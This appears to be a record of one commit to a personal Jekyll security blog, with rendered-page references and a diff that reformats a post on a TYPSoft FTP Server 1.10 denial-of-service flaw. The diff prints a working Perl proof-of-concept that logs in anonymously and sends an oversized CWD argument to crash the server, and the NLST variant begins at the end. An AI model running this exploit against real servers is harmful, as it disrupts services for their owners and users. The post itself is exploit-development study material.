

Before and after one commit to Th3R3g3nt/th3r3g3nt.github.io, a Jekyll site: the page built from _posts/2012-02-07-TypSoft-FTP-DoS.md, in a window 1280 px wide and 1400 px high, scrolled down 257 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
Update 2012-02-07-TypSoft-FTP-DoS.md

```diff
--- a/_posts/2012-02-07-TypSoft-FTP-DoS.md
+++ b/_posts/2012-02-07-TypSoft-FTP-DoS.md
@@ -2,9 +2,8 @@
 layout: post
 title: "TYPSoft FTP"
 date: 2012-02-07
+excerpt_separator: <!--more-->
 ---
-
-##Good evening,
 
 During my introduction to exploit development I started work on a small FTP server, see what I can find. What I found is fairly interesting; couple commands resulted in a Denial-of-Service condition under Win 7 x32 and x64. At the time of my research I have been unable to shove some shell code, jump etc into the thing. Time past and I got busy, so it is might still be there.
 
@@ -17,42 +16,46 @@
 * OSVDB-ID: 80913
 * Win 7 only
 * Update: Recent Win 7 patches in around 2018 fixed the issues and DoS doesn't seems to work. Oops...
+<!--more>
 
 **CWD Variant**
->##################################################
->#!/usr/bin/perl
-># Exploit Title: Typsoft FTP Server DoS CWD command
-># Date: 02/06/2012
-># Author: Balazs Makany
-># Software Link: http://sourceforge.net/projects/ftpserv/
-># Version: 1.10
-># Tested on: Windows 7
-># (does not work on Windows XP)
->#
-># Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
->#
->
->use IO::Socket;
->
->$user = ""USER anonymous\r\n"";
->$passw = ""PASS anonymous@127.0.0.1\r\n"";
->$command = ""CWD "";
->$dos_input = "".""x250;
->$send = ""\r\n"";
->$socket = IO::Socket::INET-&gt;new(
->Proto => ""tcp"",
->PeerAddr => ""$ARGV[0]"",
->PeerPort => ""$ARGV[1]"",
->);
->
->$socket->recv($serverdata, 1024);
->print $serverdata;
->
->$socket->send($user);
->$socket->recv($serverdata, 1024);
->$socket->send($passw);
->$socket->recv($serverdata, 1024);
->$socket->send($command.$dos_input.$send);
+{% highlight perl %}
+\>##################################################
+\#!/usr/bin/perl
+\# Exploit Title: Typsoft FTP Server DoS CWD command
+\# Date: 02/06/2012
+\# Author: Balazs Makany
+\# Software Link: http://sourceforge.net/projects/ftpserv/
+\# Version: 1.10
+\# Tested on: Windows 7
+\# (does not work on Windows XP)
+\#
+\# Please note, that you need to have a valid username/password to execute the malformed command on the server. The server comes with an enabled by default Anonymous account, which is used below.
+\#
+
+use IO::Socket;
+
+$user = ""USER anonymous\r\n"";
+$passw = ""PASS anonymous@127.0.0.1\r\n"";
+$command = ""CWD "";
+$dos_input = "".""x250;
+$send = ""\r\n"";
+$socket = IO::Socket::INET-&gt;new(
+Proto => ""tcp"",
+PeerAddr => ""$ARGV[0]"",
+PeerPort => ""$ARGV[1]"",
+);
+
+$socket->recv($serverdata, 1024);
+print $serverdata;
+
+$socket->send($user);
+$socket->recv($serverdata, 1024);
+$socket->send($passw);
+$socket->recv($serverdata, 1024);
+$socket->send($command.$dos_input.$send);
+
+{% endhighlight %}
 
 **NLST Variant**
 >#!/usr/bin/perl
```
